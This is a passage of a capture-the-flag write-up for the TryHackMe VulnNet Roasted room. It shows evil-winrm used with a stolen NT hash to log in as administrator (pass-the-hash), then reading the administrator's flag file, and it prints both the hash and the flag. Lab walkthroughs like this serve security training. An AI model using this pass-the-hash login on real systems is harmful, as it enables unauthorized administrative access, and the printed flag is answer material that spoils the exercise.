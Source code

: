 Moreover, the `evil-winrm` also provide the `NTHash` option to login despite of the `-p` Password:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -h | grep "\-H"                                                      
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -H, --hash HASH                  NTHash
```

Use the previous found hash to access the target system as **************************administrator************************** user:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.73.84 -u administrator -H 'c2597747aa5e43022a3a3049a3c3b09d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```

Then get the admin flag:

```tsx
*Evil-WinRM* PS C:\Users\Administrator> tree /f
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       system.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Administrator> more Desktop\system.txt
THM{16f45e3934293a57645f8d7bf71d8d4c}
```
